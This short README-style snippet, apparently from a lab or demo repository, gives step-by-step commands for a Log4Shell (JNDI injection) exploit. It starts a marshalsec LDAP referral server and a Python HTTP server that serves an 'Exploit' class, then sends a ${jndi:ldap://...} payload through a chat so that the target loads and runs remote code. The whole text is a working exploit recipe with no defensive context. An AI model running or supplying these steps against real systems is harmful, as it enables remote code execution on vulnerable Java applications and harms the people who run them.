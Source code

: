 How to run the exploit
* run the following commands in the terminal `java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://localhost:8888/#Exploit`
* opend a new terminal instance and run `python -m http.server 8888`
* then send this in the chat `${jndi:ldap://ip:1389/#Exploit}`

